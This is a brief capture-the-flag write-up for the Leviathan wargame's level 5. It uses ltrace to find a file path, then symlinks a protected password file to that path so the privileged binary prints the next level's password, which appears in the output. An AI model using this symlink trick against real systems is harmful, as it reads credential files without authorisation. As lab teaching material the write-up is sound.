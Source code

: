 ## leviathan5

```bash
leviathan5@gibson:~$ ls
leviathan5
leviathan5@gibson:~$ ltrace ./leviathan5 
__libc_start_main(0x8049206, 1, 0xffffd5f4, 0 <unfinished ...>
fopen("/tmp/file.log", "r")            = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)      = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ55XPVk2l
```
- ` ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log ` - link a file.
-  By creating this symbolic link, you are attempting to trick the "leviathan5" program into reading the contents of "/etc/leviathan_pass/leviathan6" when it tries to access "/tmp/file.log". This might be an attempt to gain unauthorized access to the password file for the user "leviathan6".